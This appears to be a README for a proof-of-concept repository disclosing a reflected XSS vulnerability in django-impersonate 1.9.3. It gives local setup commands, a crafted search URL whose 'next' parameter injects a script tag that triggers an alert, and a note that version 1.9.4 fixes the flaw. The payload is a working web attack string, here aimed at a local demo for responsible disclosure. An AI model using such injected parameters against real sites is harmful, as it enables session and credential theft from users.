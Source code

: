 # Proof of concept for a XSS vulnerability in django-impersonate 1.9.3

You can read the full post [here](https://stsewd.dev/posts/xss-in-djang-impersonate-and-django-gravatar2/).

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-impersonate
$ cd poc-xss-django-impersonate
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

- Go to `http://127.0.0.1:8000/admin/login/`
- Log in with the user you created
- Go to `http://127.0.0.1:8000/impersonate/search/?next=?next="/><script>alert(document.domain)</script><input type="hidden`
- A popup with the domain of the page should appear

Try updating the project to use django-impersonate 1.9.4, and repeat the steps to see that the vulnerability is fixed.

```bash
$ uv add django-impersonate==1.9.4
```
